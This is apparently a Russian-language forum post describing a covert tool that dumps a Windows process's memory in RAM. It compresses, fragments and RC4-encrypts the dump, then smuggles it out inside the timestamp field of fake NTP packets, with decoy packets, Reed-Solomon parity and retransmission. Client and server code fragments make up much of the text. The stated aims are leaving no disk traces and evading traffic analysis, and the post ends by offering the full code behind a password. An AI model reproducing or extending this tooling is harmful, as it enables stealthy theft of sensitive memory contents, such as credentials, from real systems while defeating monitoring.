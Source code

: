 ### Реализация скрытой эксфильтрации дампа памяти через NTP
Два основных компонента клиент и сервер. Клиентская часть отвечает за сбор дампа памяти процесса win, его сжатие, фрагментацию и шифрование, после чего отсылаются замаскированные пакеты, все операции выполняются полностью в оперативке, без следов на диске. Пакеты формируются так, что их внешний вид соответствует ntp трафику, чтобы увести подозрения при анализе. Серверная часть слушает заданный порт, принимает пакеты, извлекает полезную нагрузку, проводит расшифровку и декодирование для восстановления дампа. Рассмотрим работу каждого компонента по отдельности:  

## Начнём с клиента
### Формирование/упаковка/отправка payload и шифрование
На клиентской стороне исходные данные, полученные в результате дампа процесса(использует win api для перебора запущенных процессов и поиска pid процесса во время выполнения, дампится напрямую в оперативку с помощью DbgHelp), сначала сжимаются с помощью zlib и затем разбиваются на фрагменты фиксированного размера, по 2 байта полезной информации на фрагмент. Для каждого фрагмента вычисляется число, которое объединяет 16 бит номера фрагмента и 16 бит самих данных. Итого, получается 32 битное значение, которое дальше шифруется.

frag = val & 0xFFFF  # данные фрагмента
seq = val >> 16      # номер фрагмента
data_bytes = frag.to_bytes(2, 'big')
plain = ((seq & 0xFFFF) << 16) | int.from_bytes(data_bytes, 'big')
plain_bytes = [
    (plain >> 24) & 0xFF,
    (plain >> 16) & 0xFF,
    (plain >> 8)  & 0xFF,
    plain         & 0xFF
]

Для шифрования используется классическая схема rc4. Но! перед тем как сгенерировать основной поток, сначала делаем скип, то есть пропускаем некоторое количество байтов, вычисляемых как функция номера фрагмента (seq * 7) & 0xFF
Суть в том, что сначала генерируются лишние байты, чтобы сдвинуть состояние, а затем уже шифруется нужный блок, где в старших 16 битах номер, а в младших данные.

#### Формирование пака

Готовый зашифрованный блок пакуется в структуру ntp пакета, зашифрованные данные копируются в transmit timestamp пакета.

def CreateNTPPacket(payload):
    packet = bytearray(48)
    packet[0] = 0x1B  # LI=0, VN=3, Mode=3
    packet[40:48] = payload  # вставляем нагруз ВАЖНО с 40 по 47!
    return packet

Каждый пакет снабжается временным штампом, вычисленым на основе текущего времени с добавлением случайного шума:

unsigned int current_ntp = (unsigned int)(time(NULL) + 2208988800UL + (rand() % 20));
payload[0] = (current_ntp >> 24) & 0xFF;
payload[1] = (current_ntp >> 16) & 0xFF;
payload[2] = (current_ntp >> 8)  & 0xFF;
payload[3] = current_ntp & 0xFF;

После формирования пакета клиент отправляет его через udp сокет. Иногда вместо реальных фрагментов, клиент генерирует декой пакеты со случайными временными метками и данными.
Каждые block_size фрагментов объединяются в блок для вычисления фрагментов чётности с использованием rs кодирования. Для каждого блока генерируются равное число паритет фрагментов. Кодирование работает по полю gf 256.
На клиенте используются два массива для быстрого умножения элементов в поле. Вычисляется на базе полинома 0x11d:

void init_gf() {
    unsigned char x = 1;
    for (int i = 0; i < 255; i++) {
        gf_exp[i] = x; // Первый мас gf_exp 
        gf_log[x] = i; // Второй gf_log
        x <<= 1;
        if (x & 0x100)
            x ^= 0x11d;
    }
    for (int i = 255; i < 512; i++) {
        gf_exp[i] = gf_exp[i - 255];
    }
}

Умножение выполняется таким образом:

unsigned char gf_mul(unsigned char a, unsigned char b) {
    if (a == 0 || b == 0)
        return 0;
    int log_a = gf_log[a];
    int log_b = gf_log[b];
    int log_result = log_a + log_b;
    return gf_exp[log_result % 255];
}

Генерация паритетных символов для кодирования работает так, для каждого j от 0 до m1 вычисляем parity[j] = Σ data[i] * (alpha^(i*(j+1)))
по gf. Кодировка выглядит так:

void rs_encode_block(const unsigned char *data, int k, unsigned char *parity, int m) {
    for (int j = 0; j < m; j++) {
        parity[j] = 0;
        for (int i = 0; i < k; i++) {
            unsigned char coefficient = gf_exp[(i * (j + 1)) % 255];
            parity[j] ^= gf_mul(data[i], coefficient);
        }
    }
}

## Теперь про сервер

Сервер слушает заданный порт и ожидает получения пакетов. При поступлении пакета первая задача извлечь полезную нагрузку c 40 по 47 байт.

data, addr = sock.recvfrom(1024)
if len(data) >= 48:
    payload = data[40:48]  # дёргаем первые 8

Сервер в первых 8 байтах получает информацию об общем числе фрагментов и размере сжатого дампа эти данные потом используются для сборки полного дампа. 

Для расшифровки каждого пакета применяется такой же как на клиенте алгоритм шифрования со скипами. Он перебирает значения скип от 0 до 255, пытаясь расшифровать и сравнивая номер фрагмента с ожидаемым значением. Для обычных data паков номер должен быть меньше общего числа фрагментов, а для fec паков наоборот. Вот как определяем скипы: 

def deduce_skip(encrypted, key, total_fragments, is_fec=False):
    for skip in range(256):
        val, _ = try_decrypt(encrypted, key, skip)
        if not is_fec:
            if (val >> 16) < total_fragments:
                return skip, val
        else:
            if (val >> 16) >= total_fragments:
                return skip, val
    return None, None

Если скип определить удалось, сервер извлекает данные:
  
# Для обычного data пакa:
skip, val = deduce_skip(encrypted, RC4_KEY, total_fragments, is_fec=False)
if skip is not None:
    seq = val >> 16
    frag = val & 0xFFFF
    data_packets[seq] = frag.to_bytes(2, 'big')

Для fec пака аналогично определяется номер блока и индекс в блоке, после чего данные кладутся для последующего декодирования.

### Восстановление данных и декодирование
Если какие то фрагменты потерялись, сервер собирает данные по блокам и применяет декодирование для восстановления недостающих байтов. Для каждого блока на каждой из двух позиций формируется система на основе имеющихся данных и фрагментов. После того как декодирование восстанавливает недостающие фрагменты, сервер получает полную картину, распаковывает сжатый дамп и если всё в порядке, сохраняет его в файл. Если восстановление не удалось, сохраняется хотя бы сжатая версия. 


def rs_decode_block(block_data, fec_data, k_block):
    eq = build_equations(block_data, fec_data, k_block, pos=0)
    if len(eq) < k_block:
        raise ValueError("Pas assez d'équations pour résoudre RS")
    sol0 = rs_solve(eq[:k_block], k_block)
    
    eq = build_equations(block_data, fec_data, k_block, pos=1)
    sol1 = rs_solve(eq[:k_block], k_block)
    recovered = {}
    for i in range(k_block):
        if i not in block_data:
            recovered[i] = bytes([sol0[i], sol1[i]])
    return recovered

### Ретрансмиссии

Если после приёма не все фрагменты получены, сервер отправляет фидбэк через отдельный порт. В обратном сообщении передаётся количество недостающих фрагментов и их номера, чтобы клиент мог заново передать отсутствующие данные. Код для определения недостающих фрагментов выглядит следующим образом:

missing_fragments = [i for i in range(total_fragments) if i not in data_packets]
if missing_fragments and sender_addr:
    feedback = struct.pack(">I", len(missing_fragments))
    for seq in missing_fragments:
        feedback += struct.pack(">I", seq)
    # Отправка фидбэка через указанный порт

На стороне клиента реализован цикл повторных попыток с лимитом, в ходе которого недостающие фрагменты отправляются снова.

Полные коды клиент/сервер и скрипты автоматизации с подробными комментариями: 
pas: valde
